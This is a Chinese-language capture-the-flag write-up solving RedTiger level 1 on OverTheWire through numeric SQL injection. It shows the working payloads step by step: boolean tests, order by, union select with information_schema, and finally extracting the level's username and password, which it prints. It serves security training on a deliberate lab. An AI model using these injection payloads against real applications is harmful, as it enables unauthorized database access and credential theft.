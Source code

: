 点击Category：1后，网址以GET方式传递`cat`参数。
### 利用`and 1=1`,`and 1=2`进行判断是否存在注入点：
```
# 正常 
https://redtiger.labs.overthewire.org/level1.php?cat=1 and 1=1 
# 运行异常
https://redtiger.labs.overthewire.org/level1.php?cat=1 and 1=2 
```
### 存在数字型注入，利用order by 测试出存在4个列： 
```
# 正常 
https://redtiger.labs.overthewire.org/level1.php?cat=1 order by 4 
# 运行异常
https://redtiger.labs.overthewire.org/level1.php?cat=1 order by 5 
```

### 构造union联合查询语句，找回显： 
```
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,3,4 
```
发现3,4 处存在回显。

我这里继续爆库、爆表、爆字段等操作，发现异常。
```
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,version(), database()
```
回显

		5.5.57-0+deb8u1
		hackit
```
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database()
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='level1_users'
```
回显

		Some things are disabled!!!

所以无法找出`level1_users`的字段了吗？
当然不是，点击登录按钮，在浏览器调试窗口（火狐的firebug或者F12）仔细看发送请求包，可知数据是POST发送的，字段为
	
	查询字符串
		cat:1
	表单数据
		user:
		password:
		login:login

开始试了试
```
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,user,password from level1_users
```
结果不对，而我观察到页面中给出的是`username`，所以换成它。
```
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,username,password from level1_users

```
got it.拿到用户名密码后登录即可。
```
Hornoxe
thatwaseasy
```

